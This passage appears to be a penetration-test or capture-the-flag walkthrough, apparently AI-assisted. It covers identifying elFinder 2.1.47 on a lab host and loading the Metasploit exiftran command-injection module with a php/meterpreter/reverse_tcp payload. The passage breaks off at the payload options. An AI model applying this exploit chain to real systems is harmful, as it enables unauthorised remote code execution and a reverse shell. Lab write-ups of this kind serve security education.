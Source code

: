 ```bash
think@10.10.80.211's password:
Permission denied, please try again.
```

Here's the continuation of your penetration test scenario, focusing on exploiting the `elFinder` vulnerability, gaining access to the system, and escalating privileges.

---

### Identifying Vulnerabilities

While interacting with the system, I discovered a vulnerable web application, `elFinder`, running on the target machine. We searched for exploits related to the `elFinder` version:

When I pressed on the following image element on the web interface, I was able to see the web file manager's name and version.

<div align="center">
  <img src="https://github.com/user-attachments/assets/5c521743-826e-4ac7-b0b5-4829e3c6df62" height="500"></img>
</div>

After identifying the version, I confirmed the existence of an exploit in Metasploit. Here's the search result:

```
death@esther:~$ msfconsole -q
msf6 > search elfinder 2.1.47

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

msf6 > 
```

Let’s use this module:

```
use 0
```

Now, let’s review the options available for this module:

```
show options
```

```
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options

Module options (exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /elFinder/       yes       The base path to elFinder
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):
```